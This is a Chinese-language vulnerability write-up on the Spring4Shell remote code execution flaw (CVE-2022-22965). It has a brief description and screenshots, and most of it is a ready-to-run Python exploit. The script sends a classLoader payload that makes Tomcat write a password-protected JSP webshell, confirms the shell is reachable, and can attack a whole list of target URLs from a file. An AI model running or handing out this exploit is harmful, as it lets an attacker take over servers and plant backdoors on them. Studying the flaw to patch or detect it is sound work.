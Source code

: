 # Spring Core JDK9+ Spring4Shell远程命令执行漏洞 *CVE*-2022-22965

## 漏洞描述

Spring是目前世界上最受欢迎的JavaEE轻量级开源框架，是Java世界最为成功的框架之一。专注于简化Java企业级应用开发的难度、缩短开发周期。该框架存在远程代码执行漏洞。结合JDK9及以上新版本的特性可以实现对历史漏洞补丁的绕过从而实现远程代码执行。

## 漏洞影响

<a-checkbox checked>JDK 9.0+, Spring 框架, 衍生框架spring-beans-*.jar</a-checkbox></br>

## 漏洞复现

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648707142327-ac12fca3-0b71-4d7a-9a63-2afb632b2478.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648707153387-68e94738-b82e-491b-b5f2-aea83a44326c.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648707194053-66b17ce7-78f2-44fa-9030-706812093cf1.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648707221623-63f0b8fd-68fc-40b3-93ab-3c849f549c7d.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648707223946-3cd95600-be21-4bb8-b97d-0c7235f18e55.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648707238287-438fa60f-0b47-4045-817e-1815e84336b0.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648707240439-c13c2a1c-a1b8-4765-b3cd-bec110e89a91.png)



## 漏洞POC

```php
#coding:utf-8

import requests
import argparse
from urllib.parse import urljoin

def Exploit(url):
    headers = {"suffix":"%>//",
                "c1":"Runtime",
                "c2":"<%",
                "DNT":"1",
                "Content-Type":"application/x-www-form-urlencoded"

    }
    data = "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
    try:

        go = requests.post(url,headers=headers,data=data,timeout=15,allow_redirects=False, verify=False)
        shellurl = urljoin(url, 'tomcatwar.jsp')
        shellgo = requests.get(shellurl,timeout=15,allow_redirects=False, verify=False)
        if shellgo.status_code == 200:
            print(f"漏洞存在，shell地址为:{shellurl}?pwd=j&cmd=whoami")
    except Exception as e:
        print(e)
        pass




def main():
    parser = argparse.ArgumentParser(description='Srping-Core Rce.')
    parser.add_argument('--file',help='url file',required=False)
    parser.add_argument('--url',help='target url',required=False)
    args = parser.parse_args()
    if args.url:
        Exploit(args.url)
    if args.file:
        with open (args.file) as f:
            for i in f.readlines():
                i = i.strip()
                Exploit(i)

if __name__ == '__main__':
    main()
```

## 参考文章

<a-alert type="success" message="https://github.com/craig/SpringCore0day" description="" showIcon>
</a-alert>
<br/>